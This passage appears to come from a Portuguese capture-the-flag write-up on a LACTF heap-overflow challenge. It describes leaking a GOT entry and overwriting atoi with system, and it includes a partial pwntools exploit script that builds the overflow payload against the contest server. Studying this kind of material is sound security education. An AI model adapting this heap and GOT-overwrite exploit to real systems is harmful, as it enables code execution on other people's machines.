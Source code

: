 - Quando explore é realizado em C, seu `curr = curr->next[0]` aponte para `got_puts - 64`, quando esse puts é executado, o endereço real da *got* é vazado.
- Com base nesse endereço é possível calcular o offset dentro da '*libc*' para '*system*'.
- Um payload é construído (estourando a heap de maneira similar a primeira etapa) para sobrescrever a got com o endereço de '*system*', nessa etapa acabou-se sobrescrevendo o ponteiro para diversas funções além da que se desejava inicialmente: '*atoi*' (*malloc/setvbuf/atoi/exit* também foram sobrescritas).
- Qualquer interação com o menu eventualmente executa '*atoi*', então system acaba sendo executada de qualquer maneira juntamente com o argumento controlado pelo atacante.

Código do exploit:
```
from pwn import *

# Set up the process
context.terminal = ["alacritty", "-e", "bash", "-c"]
#p = process(['./ld-linux-x86-64.so.2', './chall'], env={'LD_LIBRARY_PATH':'.'}, aslr=False)
p = remote('chall.lac.tf', 31338)
exe = ELF('./chall')
context.arch = exe.arch
libc = ELF('./libc.so.6')  # Adjust to target libc

context.log_level = 'debug'

# Leak main address
p.recvuntil(b'A welcome gift: ')
main_leak = int(p.recvline().strip(), 16)
log.info(f"Leaked main address: {hex(main_leak)}")

# Calculate binary base (adjust main offset based on the binary)
main_offset = exe.symbols['main']
binary_base = main_leak - main_offset
log.info(f"Binary base: {hex(binary_base)}")

# Calculate GOT address of puts (adjust got_puts_offset based on the binary)
got_puts_offset = exe.got['puts']
got_puts = binary_base + got_puts_offset
log.info(f"GOT puts address: {hex(got_puts)}")

log.info(f"Start address: {hex(binary_base + exe.symbols['start'])}")
log.info(f"Prev address: {hex(binary_base + exe.symbols['prev'])}")
log.info(f"Curr address: {hex(binary_base + exe.symbols['curr'])}")

# Create Level B
p.sendlineafter(b'Choice: ', b'1')
p.sendlineafter(b'Enter level index: ', b'0')

# Create Level C
p.sendlineafter(b'Choice: ', b'1')
p.sendlineafter(b'Enter level index: ', b'1')

# Create Level D
p.sendlineafter(b'Choice: ', b'1')
p.sendlineafter(b'Enter level index: ', b'2')

# Explore Level B
p.sendlineafter(b'Choice: ', b'4')
p.sendlineafter(b'Enter level index: ', b'0')

# Edit Level B to overflow into Level C's next[0]
payload = b'A' * 0x20  # Fill Level B's data
payload += p64(0) + p64(0x71) # Metadata between Levels
payload += p64(got_puts - 64)  # Overwrite Level C's next[0]
payload += p64(0)     # Fill remaining overflow space
```